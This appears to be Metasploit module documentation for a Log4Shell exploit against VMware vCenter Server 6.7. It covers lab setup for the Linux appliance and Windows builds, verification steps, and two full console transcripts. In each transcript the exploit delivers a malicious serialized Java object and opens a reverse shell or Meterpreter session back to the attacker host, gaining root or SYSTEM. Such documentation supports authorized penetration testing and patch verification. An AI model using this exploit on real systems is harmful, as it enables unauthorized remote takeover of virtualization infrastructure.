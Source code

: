 ## Vulnerable Application

### Description
VMware vCenter Server is affected by the Log4Shell vulnerability whereby a JNDI string can sent to the server
that will cause it to connect to the attacker and deserialize a malicious Java object. This results in OS
command execution in the context of the root user in the case of the Linux virtual appliance and SYSTEM on
Windows.

This module will start an LDAP server that the target will need to connect to. This exploit uses the logon page
vector.

### Setup
Once vCenter is installed, no configuration needs to take place. The application is vulnerable out of the box.

### Linux Appliance
Follow the steps from the [vmware_vcenter_uploadova_rce][1] module.

In summary:

1. Obtain a `VMware-VCSA-all-6.7.0-#####.iso` file, the example will assume VMware-VCSA-all-6.7.0-11726888.iso.
2. Mount the ISO and extract the OVA file from under the `vcsa` directory.
3. Import it into VMware workstation, leave all options blank.
4. When prompted to select a size, select tiny or small.
5. The system will boot once, wait for a few minutes and then automatically reboot.
6. Once the system has booted the second time, access the console to set the root password.
7. Navigate to the HTTPS site on port 5480. The host IP address will be on the console.
8. Complete the setup steps, when prompted use a public NTP server instead of synchronizing with the non-existent ESX
   server.
9. Wait for setup to complete, and then exploit the service listening on port 443.

### Windows Application
1. Obtain a `VMware-VIM-all-6.7.0-#####.iso` file.
2. Mount the file in a Windows server, (use Server 2016 **not** Server 2019).
3. Run the setup file in the root of the CD.
4. Complete the setup process.
5. Wait for setup to complete, and then exploit the service listening on port 443.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/vmware_vcenter_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Options

## Scenarios

### VMware vCenter Server 6.7 Build 17028632 / Update 1b (Linux appliance)

```
msf > use exploit/multi/http/vmware_vcenter_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(multi/http/vmware_vcenter_log4shell) > set RHOSTS 192.168.159.55
RHOSTS => 192.168.159.55
msf exploit(multi/http/vmware_vcenter_log4shell) > set TARGET Linux
TARGET => Linux
msf exploit(multi/http/vmware_vcenter_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/vmware_vcenter_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf exploit(multi/http/vmware_vcenter_log4shell) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.55:443    - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.55:443 - The target is vulnerable.
msf exploit(multi/http/vmware_vcenter_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.55:443    - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (192.168.159.128:4444 -> 192.168.159.55:48454 ) at 2022-01-13 12:38:14 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/
```

### VMware vCenter Server 6.7.0 Build 16708996 (Windows)

In this example, the target server is running on the non-default port of 8443.

```
msf > use exploit/multi/http/vmware_vcenter_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(multi/http/vmware_vcenter_log4shell) > set RHOSTS 192.168.159.45
RHOSTS => 192.168.159.45
msf exploit(multi/http/vmware_vcenter_log4shell) > set TARGET Windows 
TARGET => Windows
msf exploit(multi/http/vmware_vcenter_log4shell) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf exploit(multi/http/vmware_vcenter_log4shell) > set SRVHOST 192.168.159.128 
SRVHOST => 192.168.159.128
msf exploit(multi/http/vmware_vcenter_log4shell) > set RPORT 8443
RPORT => 8443
msf exploit(multi/http/vmware_vcenter_log4shell) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.45:8443   - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.45:8443 - The target is vulnerable.
msf exploit(multi/http/vmware_vcenter_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.45:8443   - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.45
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.45:63083 ) at 2022-01-13 14:22:00 -0500
[*] Server stopped.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > 
```

[1]: https://github.com/rapid7/metasploit-framework/blob/ec37a88a4aecc49ffceaf10a1e8e09d3d15f8bda/documentation/modules/exploit/multi/http/vmware_vcenter_uploadova_rce.md#setup
